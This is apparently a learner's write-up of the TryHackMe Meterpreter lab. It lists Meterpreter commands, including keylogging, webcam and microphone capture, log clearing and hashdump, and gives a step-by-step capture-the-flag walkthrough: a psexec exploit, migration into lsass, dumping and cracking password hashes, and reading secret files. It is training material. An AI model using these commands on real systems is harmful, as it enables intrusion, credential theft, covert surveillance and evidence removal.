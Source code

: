 <!-- TOC -->

- [Metasploit: Meterpreter](#metasploit-meterpreter)
    - [Meterpreter commands](#meterpreter-commands)
    - [Post-Exploitation Challenge](#post-exploitation-challenge)

<!-- /TOC -->

# Metasploit: Meterpreter

[Metasploit: Meterpreter Room](https://tryhackme.com/room/meterpreter)

Take a deep dive into Meterpreter, and see how in-memory payloads can be used for post-exploitation.

## Meterpreter commands

Core commands:

- `background`: Backgrounds the current session
- `exit`: Terminate the Meterpreter session
- `guid`: Get the session GUID (Globally Unique Identifier)
- `help`: Displays the help menu
- `info`: Displays information about a Post module
- `irb`: Opens an interactive Ruby shell on the current session
- `load`: Loads one or more Meterpreter extensions
- `migrate`: Allows you to migrate Meterpreter to another process
- `run`: Executes a Meterpreter script or Post module
- `sessions`: Quickly switch to another session

File system commands:

- `cd`: Will change directory
- `ls`: Will list files in the current directory (dir will also work)
- `pwd`: Prints the current working directory
- `edit`: will allow you to edit a file
- `cat`: Will show the contents of a file to the screen
- `rm`: Will delete the specified file
- `search`: Will search for files
- `upload`: Will upload a file or directory
- `download`: Will download a file or directory

Networking commands:

- `arp`: Displays the host ARP (Address Resolution Protocol) cache
- `ifconfig`: Displays network interfaces available on the target system
- `netstat`: Displays the network connections
- `portfwd`: Forwards a local port to a remote service
- `route`: Allows you to view and modify the routing table

System commands:

- `clearev`: Clears the event logs
- `execute`: Executes a command
- `getpid`: Shows the current process identifier
- `getuid`: Shows the user that Meterpreter is running as
- `kill`: Terminates a process
- `pkill`: Terminates processes by name
- `ps`: Lists running processes
- `reboot`: Reboots the remote computer
- `shell`: Drops into a system command shell
- `shutdown`: Shuts down the remote computer
- `sysinfo`: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu):

- `idletime`: Returns the number of seconds the remote user has been idle
- `keyscan_dump`: Dumps the keystroke buffer
- `keyscan_start`: Starts capturing keystrokes
- `keyscan_stop`: Stops capturing keystrokes
- `screenshare`: Allows you to watch the remote user's desktop in real time
- `screenshot`: Grabs a screenshot of the interactive desktop
- `record_mic`: Records audio from the default microphone for X seconds
- `webcam_chat`: Starts a video chat
- `webcam_list`: Lists webcams
- `webcam_snap`: Takes a snapshot from the specified webcam
- `webcam_stream`: Plays a video stream from the specified webcam
- `getsystem`: Attempts to elevate your privilege to that of local system
- `hashdump`: Dumps the contents of the SAM database

## Post-Exploitation Challenge

| Title | IP Address |
| :----: | :----: |
| Win4Meterpreter | `1*.**.***.***` |

Using `msfconsole`:

```bash
msfconsole
db_nmap -A -vv -T4 -oN initial 1*.**.***.***
user exploit/windows/smb/psexec
hosts -R
set lhost 1*.*.**.**
set smbuser ballen
set smbpass Password1
run
```

RHOST:

```bash
sysinfo
```

> `Computer : A***-T***`

> `Domain : F****`

```bash
background
```

LHOST:

```bash
use post/windows/gather/enum_shares
set session 1
run
```

> `[*] Name: s********`

```bash
sessions 1
```

RHOST:

```bash
ps
```

> `756 632 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\lsass.exe`

```bash
migrate 756
hashdump
```

> `jchambers:1114:aad3b435b51404eeaad3b435b51404ee:6*******************************:::`

- Copy

```bash
background
```

LHOST:

```bash
cat > hash
```

- Paste

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

> `T******* (?)`

```bash
sessions 1
```

RHOST:

```bash
search -f secrets.txt
```

> `C:\P****** F**** (***)\W****** M********* P*******\secrets.txt (35 bytes)`

```bash
cat "C:\P****** F**** (***)\W****** M********* P*******\secrets.txt"
```

> `My Twitter password is KDS********!`

```bash
search -f realsecret.txt
```

> `C:\*******\*******\realsecret.txt (34 bytes)`

```bash
cat "C:\*******\*******\realsecret.txt"
```

> `T** F**** i* t** f****** m** a****`
